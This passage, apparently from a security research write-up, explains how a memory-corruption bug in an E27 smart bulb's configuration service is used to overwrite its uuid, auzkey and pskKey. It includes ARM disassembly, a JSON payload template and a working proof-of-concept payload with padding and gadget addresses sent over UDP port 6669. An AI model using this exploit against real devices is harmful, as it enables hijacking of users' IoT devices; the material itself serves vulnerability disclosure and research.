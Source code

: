 This function provides all the necessary ingredients to overwrite the device secret parameters: `uuid`, `auzkey` and `pskKey` with ones that we control. Before we can use it, though, we must have a JSON payload which has all the necessary parameters. Doing so correctly is a bit tricky due to the size limitation in our payload and the limited number of usable gadget side effects. It won't be possible to try and smuggle another JSON payload within any of the fields of the configuration message.

However, we can simply fill the configuration message JSON payload with the necessary fields without any side effects on the vulnerability trigger. All we would have to do then is find an intermediate gadget which sets the return value register, namely `r0`, to the register holding the parsed `ty_cJSON` object which represents the configuration message. Thereby, once we trigger the vulnerability, it sets `c` at `[1]` above to our configuration message and continues execution all the way to persisting our chosen parameters in flash. Looking at the disassembly of the function on the test E27 device firmware, the exact target location `[1]` can be clearly identified at address `0x000ad514`:
```armasm
; ...
ldr        r3,[sp,#0x38] ; 0x000ad508
add        r3,#0x6 ; 0x000ad50a
add        r1,3,#0x0 ; 0x000ad50c
str        r3,[sp,#0x3c] ; 0x000ad50e
bl         ty_cJSON_Parse ; 0x000ad510
ldr        r7,[LAB_000ad79c] ; 0x000ad514 - [1]
sub        r6,r0,#0x0 ; 0x000ad516
bne        LAB_000ad52c ; 0x000ad518
; ...
```

### Putting it all together
To wrap up, using the E27 smart device we've mentioned as an example so far:

Set the device in AP configuration mode and connect to the AP. Afterwards, send a configuration message to the configuration service listening on UDP port 6669 which includes the following JSON payload structure:
```json
{
    "auzkey":"<desired auth key>",
    "uuid":"<desired uuid>",
    "pskKey":"",
    "prod_test":false,
    "ap_ssid":"A",
    "ssid":"<ssid value>",
    "token":"<72 bytes of padding><least significant 3 bytes of intermediate gadget>",
    "passwd":"<passwd value>"
}
```

And for that specific E27 light bulb, this is the final payload which we used as a Proof-of-Concept:
```json
{
    "auzkey":"AAAAAAAAAAAAAAAA",
    "uuid":"abcd",
    "pskKey":"",
    "prod_test":false,
    "ap_ssid":"A",
    "ssid":"A",
    "token":"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb9\x94\x0b",
    "passwd":"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x15\xd5\x0a"
}
```
